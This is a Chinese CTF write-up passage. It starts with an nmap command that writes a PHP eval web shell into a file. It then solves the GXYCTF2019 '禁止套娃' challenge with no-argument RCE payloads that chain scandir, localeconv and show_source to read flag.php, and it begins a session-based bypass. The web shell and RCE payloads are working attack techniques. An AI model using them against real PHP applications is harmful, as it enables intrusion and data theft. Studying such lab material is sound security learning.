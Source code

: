 ```
nmap -T5 -sT -Pn --host-timeout 2 -F -oG test.php \ <?php @eval($_POST[cmd]);?> \\
```

## [GXYCTF2019]禁止套娃

利用githack获取源码

![image-20240217162123197](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240217162123197.png)

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

首先过滤了一些伪协议，然后有一个正则表达式，最后过滤了一些关键字

```
/[a-z,_]+\((?R)?\)/
(?R)?表示递归整个匹配模式
这里只能传入如，a(b(c()));这样的值，所以这是一道无参数RCE
```

```
exp=print_r(scandir(current(localeconv()))); 查看当前目录文件，有flag.php
exp=show_source(next(array_reverse(scandir(current(localeconv())))));
翻转数组，利用next取小标为1的元素，查看源码，得到flag
```

利用session

```
?exp=print_r(session_id(session_start()));//session_start表示初始化session，如果header里面没有设置的话则自己创建;session_id获取session，
```
